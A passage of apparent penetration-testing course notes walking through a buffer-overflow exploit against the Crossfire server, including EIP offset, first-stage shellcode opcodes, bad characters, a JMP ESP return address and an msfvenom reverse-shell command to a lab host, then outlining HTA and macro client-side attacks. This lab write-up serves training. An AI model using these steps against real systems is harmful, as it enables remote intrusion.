 	With msf-pattern_offset -q 46367046 we find that those byte are at offse 4368 of the buffer. We update then again the python poc and we verify our control of the EIP
Locating space for our shellcode:
	The ESP points to the end of our buffer, but it only gives us 7 bytes for our shellcode, which is not enough
	Also, we cannot incrase the size of the buffer since, if we do it, we see that Crossfire starts crashing in an unpredictable way, not good for us
	We find that EAX points to the beginning of our buffer, including the "setup sound" command
	What we can try to do is to use the 7 bytes pointed by ESP to inject first stage shellcode. This fist stage payload will be used to align the EAX register in order to make it point to our buffer right after the setup sound string and then to jump to that location, skipping the first undesired instructions.
	In order to achieve this, our first stage shellcode will need to increase the value of EAX by 12 bytes, as there are 12 characters in the string "setup sound"
	We can accomplish this with an ADD assembly instruction and then jump to the memory pointed to by EAX with a JMP instruction. In order to get the orrect opcode for these instructions, we can use the nasm shell utility provided by metasploit: 
		msf-nasm_shell
		nasm > add eax, 12
		00000000 	83C00C 		add eax, byte +0xc
		nasm > jmp eax 
		00000000 	FFE0 		jmp eax
	Luckily for us, these two instructions only take 5 bytes of memory.
	We update our python poc by including the first stage shellcode and repadding the original buffer with nops, in order to maintain the correct lenght.
	Our updated poc code is working perfectly: the EIP is overwritten with 4 Bs and our first stage shellcode is located at the memory address pointed to by the ESP register
Checking for bad characters:
	To find the list of bad characters for the Crossfire application, we send to it the complete set of characters (from 0x00 to 0xFF) and see if any of these bytes get changed, mangled, swapped or dropped by the application. This process is identical to the one followed during the development of a buffer overflow exploit under Windows. After doing that, we arrive to the conclusion that only \x00 and \x20 are bad characters for the Crossfire application 
Finding a return address:
	As a final step, we need to find a valid assembly instruction to redirect code execution to the memory location pointed to by the ESP register
	edb comes with a set of plugins, once of which is called "Opcode Searcher"
	Using this plugin we can easily search for a JUMP ESP instruction in the memory region where the code section of the Crossfire application is mapped. We proceed with the first JMP ESP instruction found by the debugger
	We can now update our python poc with the return address and run it. Indeed, we see that we land at our first stage shellcode, first stage that aligns the EAX with the dedired return address and then with the JMP EAX we land at our clean buffer of As. The only thing left to do is to insert a shellcode into out buffer of As
Getting a shell:
	All we need to do now is to generate a reverse shell payload with msfvenom and drop it at the beginning of our buffer of As
	msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.11.0.4 LPORT=443 -b "\x00\x20" -f py -v shellcode
	We now setup our local nc listener on port 443 and se send our exploit... BINGO!

##### Client-side Attacks
These attack vectors are particularly appealing for an attacker who does not have routable access to the victim's machine
Client-side attacks may require:
	Passive information gathering
	Active information gathering 
	Social engineering
	Client fingerprinting (for example with the fingerprintjs2 project on github)
Exploiting HTML applications:
	This attack vector (application file extension .hta) allows to write malicious HTML code and have it run on the victim machine outside of the security context of the victim's browser (for example enabling ActiveX and even more powerful PowerShell commands)
Microsoft Office applications
	Microsoft Word Macro